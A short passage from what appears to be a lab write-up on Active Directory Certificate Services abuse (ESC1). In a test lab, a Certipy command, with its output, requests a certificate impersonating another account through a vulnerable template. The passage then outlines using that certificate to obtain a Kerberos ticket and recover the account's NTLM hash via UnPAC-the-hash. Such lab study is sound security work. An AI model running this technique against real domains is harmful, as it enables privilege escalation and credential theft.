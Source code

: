 The following systems were used in the lab:

- Kali (172.17.204.145)
- Windows Server 2025 as Domain Controller and Certificate Authority (172.17.199.253)

## ESC1
Using [Certipy](https://github.com/ly4k/Certipy), we request the vulnerable template:

```sh
┌──(kali㉿kali)-[~]
└─$ certipy-ad req -u testuser -p Password123 -ca "testcorp-WIN-SUSL647VIKP-CA" -template "ESC1-TEMP" -target-ip 172.17.199.253 -upn otheradmin@testcorp.local
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with UPN 'otheradmin@testcorp.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'otheradmin.pfx'
```

This exports a PFX containing a certificate and key. Using this PFX we can request a TGT and perform [UnPAC-the-hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash) to recover the NTLM hash for `otheradmin`. The following diagram shows how UnPAC-the-hash works.

![](/assets/img/posts/kerberos-fun/3.png)
_UnPAC-the-hash flow. Image source: thehacker.recipes_
